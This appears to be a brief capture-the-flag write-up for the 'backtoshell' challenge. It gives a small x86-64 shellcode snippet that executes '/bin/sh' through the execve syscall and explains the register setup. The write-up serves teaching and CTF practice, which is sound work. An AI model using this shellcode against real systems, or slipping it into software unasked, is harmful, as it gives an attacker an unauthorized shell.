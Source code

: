# backtoshell

Very simple challenge. It basically reads the shellcode from stdin and executes it. We only need to pass the correct shellcode.

```c
mov rdi, rax
add rdi, 16
mov rax, 0x3b
syscall
.string "/bin/sh"
```

RAX register contains the address of the shellcode (returned by the read syscall). We need to add 16 to it to get the address of the string "/bin/sh" (which is the first argument of the execve syscall). Then we can call execve.

Note that RSI and RDX are already set to 0, so we don't need to set them.

The complete exploit is in [script.py](script.py).
